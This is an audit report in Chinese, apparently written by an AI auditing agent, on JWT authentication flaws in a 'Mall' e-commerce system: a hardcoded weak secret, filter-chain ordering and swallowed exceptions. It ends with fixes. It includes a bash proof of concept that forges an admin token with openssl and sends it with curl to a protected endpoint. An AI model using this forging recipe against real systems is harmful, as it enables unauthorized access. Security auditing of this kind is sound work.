 # Deep Dive 安全审计报告 - JWT认证机制代码审计 (CODE-REVIEW-ITEM-001)

## 一、分配任务

### 任务描述
对Mall电商系统的JWT认证机制进行代码审计，基于相关模块的源代码与配置文件，识别潜在安全漏洞并提出建议。

### 核心需求
- 审查JWT生成与验证逻辑
- 分析密钥管理、过期策略、异常处理
- 审查过滤器与框架配置
- 结合部署架构评估可利用性
- 编写并保存深度审计报告


## 二、微行动计划 & 关键上下文

1. 阅读 `JwtTokenUtil.java` 以分析签名算法、密钥管理、过期策略及异常处理。
2. 阅读 `JwtAuthenticationTokenFilter.java` 与 `SecurityConfig.java`，剖析过滤器链逻辑与配置安全边界。
3. 审查配置文件（`application-prod.yml`）中JWT secret与过期时间设置；检查 `.gitignore` 排除规则。
4. 基于 `DeploymentArchitectureReport.md` 进行威胁建模：明确外部可访问端口与攻击者类型。
5. 构思PoC，并评估远程/内部可利用性。

**部署上下文**：服务直接通过Docker主机端口（8080/8085）对外暴露，无Nginx反向代理；攻击者可从Internet发起请求。


## 三、分析与发现

### 1. 签名与密钥管理 (JwtTokenUtil.java)
- 使用对称HS256签名算法；
- `secret` 从配置读取，但在 `application-prod.yml` 中硬编码为 `myJwtSecretKey123`，强度不足；
- 默认过期时间设置为7200秒（2小时），可能过长；
- 生成Token时仅包含常见`sub`, `iat`, `exp`字段，无随机nonce或jti防止重放；
- 解析时针对`SignatureException`, `ExpiredJwtException`, `MalformedJwtException`等异常统一捕获后返回`null`，未记录日志，吞噬错误信息。

### 2. 请求过滤与安全配置
- `JwtAuthenticationTokenFilter`: 从`Authorization`头提取Token，调用`JwtTokenUtil.parseJwt(token)`；若返回`null`则不设置`SecurityContextHolder`；但是不会立即终止请求，仅依赖后续访问决策拒绝或匿名访问；
- 过滤器优先级配置在`UsernamePasswordAuthenticationFilter`之后，存在绕过可能；
- `SecurityConfig`关闭CSRF，启用无状态Session，并注册过滤器，但未强化所有受保护路径拦截，忽略列表配置不够严格。

### 3. 配置文件审查
- `application-prod.yml` 明文保存 `jwt.secret: myJwtSecretKey123`；
- `jwt.expiration: 7200`（单位：秒）；
- `.gitignore` 未排除生产配置文件，导致密钥泄露风险。

### 4. 威胁建模与风险评估

| 评估维度        | 细节与依据                                                     |
|-----------------|--------------------------------------------------------------|
| Reachability    | 服务暴露端口：8080 (mall-admin), 8085 (mall-portal)；可通过Internet直接访问。 |
| 攻击者类型      | 未认证外部攻击者；可直接发起HTTP请求。                            |
| STRIDE风险      | 信息泄露（泄露secret）、篡改（伪造JWT）、拒绝服务（循环验证）、非否认（异常吞噬）。 |
| 可利用性        | HS256密钥弱，可通过暴力/字典破解或直接查配置获取；重放攻击易实施；过滤器链缺陷可绕过。 |
| 潜在影响        | 高危：可伪造合法Token访问受保护API，实现未授权访问用户及管理接口；泄露敏感数据。 |


## 四、Proof-of-Concept (PoC)

**分类**：远程/外部可利用

### 1. 前提条件
- 攻击者可访问 `http://{host}:8080`；
- 知悉或破解 JWT secret (`myJwtSecretKey123`)；
- 目标接口：GET `/admin/users`（受保护）。

### 2. PoC 步骤

```bash
# 1) 构造JWT：
HEADER='{"alg":"HS256","typ":"JWT"}'
PAYLOAD='{"sub":"admin","iat":1630000000,"exp":1930000000}'

encode() { echo -n "$1" | openssl base64 -e | tr -d '=' | tr '/+' '_-' | tr -d '\n'; }
header_enc=$(encode "$HEADER")
payload_enc=$(encode "$PAYLOAD")

signature=$(echo -n "${header_enc}.${payload_enc}" | openssl dgst -sha256 -hmac "myJwtSecretKey123" -binary | openssl base64 -e | tr -d '=' | tr '/+' '_-' | tr -d '\n')
token="${header_enc}.${payload_enc}.${signature}"

# 2) 发送请求：
curl -i -H "Authorization: Bearer $token" http://{host}:8080/admin/users
```

### 3. 预期结果
- HTTP 200 返回用户列表 JSON；
- 表明未授权访问成功。


## 五、安全审计评估

- Reachability：外部可通过HTTPS或HTTP直接访问服务；
- 所需权限：无需认证，远程匿名攻击者；
- 潜在影响：高 - 未授权访问，数据泄露，可能进一步进行敏感操作。


## 六、建议修复

1. **密钥管理**：
   - 使用高强度随机生成的secret，存储在安全Vault（如Vault、KMS），在运行时注入；
   - 不将生产密钥硬编码在源码或YML中，避免版本管理泄露。

2. **签发改进**：
   - 在JWT中添加`jti`和随机Nonce，实现一次性Token或黑名单机制；
   - 根据业务需要调整过期时间，对高权限Token可使用短期有效。

3. **验证强化**：
   - 解析JWT异常时立即拒绝请求并记录日志；
   - 在过滤器中对所有受保护接口强制校验Token，不依赖后续过滤器。

4. **配置优化**：
   - 强化`SecurityConfig`中受保护路径规则，避免忽略列表过于宽松；
   - 重新审计过滤器链顺序，确保JWT验证能先于认证入口。


---
*审计人：DeepDiveSecurityAuditorAgent*